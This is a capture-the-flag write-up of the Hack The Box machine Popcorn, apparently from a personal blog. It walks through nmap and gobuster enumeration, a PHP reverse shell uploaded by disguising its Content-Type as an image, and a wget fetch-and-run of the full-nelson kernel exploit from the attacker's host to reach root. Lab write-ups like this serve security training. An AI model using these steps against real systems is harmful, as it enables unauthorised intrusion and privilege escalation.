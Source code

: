 ```yaml
---
clayout: ctf
title: Popcorn
date: 2025-08-22
image: /ctf/hack-the-box/machines/popcorn/info-card.png
type: Hack The Box

ctf:
    - name: Popcorn
      link: https://app.hackthebox.com/machines/4
      thumbnail: /ctf/hack-the-box/machines/popcorn/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/4
          thumbnail: /ctf/hack-the-box/machines/popcorn/pwned.png
---
```


## Machine Overview

The target is **Popcorn (10.10.10.6)**, an older HackTheBox Linux machine running outdated services. Initial enumeration revealed both SSH and HTTP, with the web server exposing a torrent hosting application vulnerable to file upload abuse. Privilege escalation was achieved through a kernel exploit.

## Enumeration

### Nmap Scan

We begin with a basic service and version scan:

```bash
nmap -sC -sV -A -oN nmap.txt 10.10.10.6
```

**Scan results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12
|_http-server-header: Apache/2.2.12 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://popcorn.htb/
```

From the scan we see:

* **SSH (OpenSSH 5.1p1)**: Outdated, potentially vulnerable.
* **HTTP (Apache httpd 2.2.12)**: Legacy version of Apache serving a website.

The scan also revealed a redirect to `popcorn.htb`, so we add the hostname to `/etc/hosts`:

```bash
echo "10.10.10.6 popcorn.htb" >> /etc/hosts
```

### HTTP Enumeration

Visiting `http://popcorn.htb` shows the default web page:

![Default web page](/ctf/hack-the-box/machines/popcorn/default-web-page.png)

#### HTTP Directory Enumeration

We use `gobuster` to enumerate directories:

```bash
gobuster dir -u http://popcorn.htb -w /usr/share/wordlists/dirb/common.txt
```

**Scan results:**

```bash
/index                (Status: 200) [Size: 177]
/rename               (Status: 301) [Size: 311] [--> http://popcorn.htb/rename/]
/test                 (Status: 200) [Size: 47349]
/test.php             (Status: 200) [Size: 47377]
/torrent              (Status: 301) [Size: 312] [--> http://popcorn.htb/torrent/]
```

Visiting `/torrent` reveals a torrent hosting application:

![Torrent page](/ctf/hack-the-box/machines/popcorn/torrent-page.png)

Available features:

* Register and login
* Upload / download torrent files
* Edit torrent details (name, description, category, preview image)

### File Upload Vulnerability

Initial testing of torrent uploads yielded nothing interesting. However, when uploading a preview image, we noticed it was served via:

```text
http://popcorn.htb/torrent/thumbnail.php?src=./upload/<upload-id>.jpg
```

This suggests that uploaded files are stored in `/upload/` and accessible directly.

To exploit this, we upload a PHP reverse shell but disguise it as an image by setting the `Content-Type` header to `image/png`. The application accepts it and provides an upload ID.

We then trigger the shell by browsing to:

```text
http://popcorn.htb/torrent/upload/<upload-id>.php
```

On our listener:

```bash
nc -lnv 1337
```

We receive a connection:

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We now have a shell as `www-data`.

> [!NOTE] User flag
> Located at `/home/george/user.txt`.

> [!TIP] Terminal stabilization
>
> ```bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> export TERM=xterm
> ```

### Privilege Escalation (www-data to root)

#### Kernel Information

Checking system details:

```bash
$ uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```

This is a 32-bit Ubuntu kernel vulnerable to several privilege escalation exploits. The [full-nelson](https://github.com/lucyoa/kernel-exploits/tree/master/full-nelson) exploit is a reliable option here.

#### Exploit

We host the exploit on our machine:

```bash
python -m http.server 8000
```

On the target:

```bash
cd /tmp
wget http://10.10.14.10:8000/full-nelson
chmod +x full-nelson
```

Execute the exploit:

```bash
./full-nelson
# ... execution output ...
[*] Triggering payload...
[*] Got root!
$ id
uid=0(root) gid=0(root)
```

> [!NOTE] Root flag
> Located at `/root/root.txt`.

## References

* [Hack The Box - Popcorn](https://app.hackthebox.com/machines/4)
* [Github - lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)
